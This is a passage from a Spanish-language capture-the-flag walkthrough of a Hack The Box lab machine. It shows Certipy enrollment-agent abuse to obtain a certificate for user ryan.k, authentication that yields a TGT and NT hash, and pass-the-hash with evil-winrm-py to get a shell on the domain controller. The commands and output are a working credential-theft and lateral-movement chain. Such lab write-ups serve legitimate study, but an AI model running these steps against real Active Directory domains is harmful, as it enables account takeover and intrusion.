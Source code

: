 
Intentaremos nuevamente utilizar la plantilla `SignedUser` para solicitar un certificado pero ahora para el usuario `ryan.k`

~~~ bash
certipy req -u 'lion.sk@certificate.htb' -p '!QAZ2wsx' -ca Certificate-LTD-CA -template SignedUser -pfx lion.sk.pfx -dc-ip 10.10.11.71 -on-behalf-of 'CERTIFICATE\ryan.k'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 33
[*] Successfully requested certificate
[*] Got certificate with UPN 'ryan.k@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx'
~~~

Utilizaremos el certificado que generamos para autenticarnos en el DC como el usuario `ryan.k`, deberíamos obtener credenciales en caché además de su hash NTLM

~~~ bash
certipy auth -pfx ryan.k.pfx -dc-ip 10.10.11.71 -username ryan.k -domain certificate.htb   Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ryan.k@certificate.htb'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6
~~~


## Shell as `Ryan.K`

Podemos utilizar tanto el hash NT del usuario `ryan.k` como el ticket `kerberos`, por comodidad y para evitar errores, recomiendo utilizar el hash

~~~ bash
evil-winrm-py -i DC01.certificate.htb -u 'ryan.k' -H 'b1bc3d70e70f4f36b1509a65ae1a2ae6'
        ▘▜      ▘             
    █▌▌▌▌▐ ▄▖▌▌▌▌▛▌▛▘▛▛▌▄▖▛▌▌▌
    ▙▖▚▘▌▐▖  ▚▚▘▌▌▌▌ ▌▌▌  ▙▌▙▌
                          ▌ ▄▌ v1.1.2
[*] Connecting to DC01.certificate.htb:5985 as ryan.k
evil-winrm-py PS C:\Users\Ryan.K\Documents> whoami
certificate\ryan.k
~~~

